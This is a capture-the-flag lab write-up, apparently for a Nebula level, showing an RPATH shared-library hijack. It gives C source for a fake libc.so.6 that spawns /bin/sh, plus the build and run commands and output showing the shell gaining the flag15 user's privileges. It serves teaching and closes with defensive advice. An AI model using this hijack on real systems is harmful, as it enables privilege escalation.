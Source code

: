 
---
### 📜 Challenge Description

> A binary named `flag15` located in `/home/flag15/` checks for libraries in a custom path. The challenge hints at **shared library hijacking** through `RPATH` and `dlopen` behavior.

**Login:** `level15 : level15`  
**Goal:** Gain shell execution as `flag15` and retrieve the flag.

---

### 🔍 Primary Lookup

#### 🛠️ Step 1: Use `strace` to Monitor Library Loading

```bash
strace /home/flag15/flag15
```

The output reveals that the binary attempts to load shared libraries from:

```
/var/tmp/flag15/libc.so.6
```

#### 🔎 Step 2: Confirm RPATH

```bash
objdump -p /home/flag15/flag15 | grep RPATH
```

✅ Output:

```
RPATH                /var/tmp/flag15
```

This confirms the binary searches `/var/tmp/flag15` **before** the standard library paths. We can exploit this by creating a **malicious `libc.so.6`**.

---

### ⚔️ Plan of Action

Hijack the library loading mechanism to execute arbitrary code (in this case, spawn a shell) by injecting a fake `libc.so.6`.

---

### 🛠️ Step-by-Step Exploit

#### 🧱 Step 1: Create the Malicious Library

```c
// dummy_libc.c
#include <stdlib.h>

int __libc_start_main(int (*main)(int, char **, char **),
                      int argc, char **ubp_av,
                      void (*init)(void), void (*fini)(void),
                      void (*rtld_fini)(void), void *stack_end) {
    system("/bin/sh");
    return 0;
}
```

#### 📜 Step 2: Create a Version Script

```ld
// version.ld
GLIBC_2.0 {
  global:
    __libc_start_main;
  local:
    *;
};
```

#### 🧪 Step 3: Compile the Fake `libc.so.6`

```bash
mkdir /var/tmp/flag15
cd /var/tmp/flag15

gcc -shared -static-libgcc -fPIC \
    -Wl,--version-script=version.ld,-Bstatic \
    dummy_libc.c -o libc.so.6
```

> This creates a minimal but effective fake `libc.so.6` that immediately spawns a shell upon loading.

---

### 🚀 Step 4: Run the Vulnerable Binary

```bash
/home/flag15/flag15
```

✅ A shell is spawned.

---

### 🏁 Step 5: Capture the Flag

```bash
id
# uid=1016(level15) gid=1016(level15) euid=984(flag15)

getflag
# You have successfully executed getflag on a target account
```

---

### 🧹 Cleanup

As per good practice, remove the malicious directory:

```bash
rm -rf /var/tmp/flag15
```

---

### 📘 Conclusion

This level demonstrates a **classic RPATH/shared library hijack** vulnerability. By placing a malicious `libc.so.6` in a directory listed in the binary’s `RPATH`, you gain code execution as the binary's user.

🔐 **Security Takeaway:**

> Avoid hardcoding unsafe `RPATH` values. Prefer `RUNPATH` or no custom paths at all. Restrict permissions and always validate and verify shared object integrity in sensitive binaries.

---

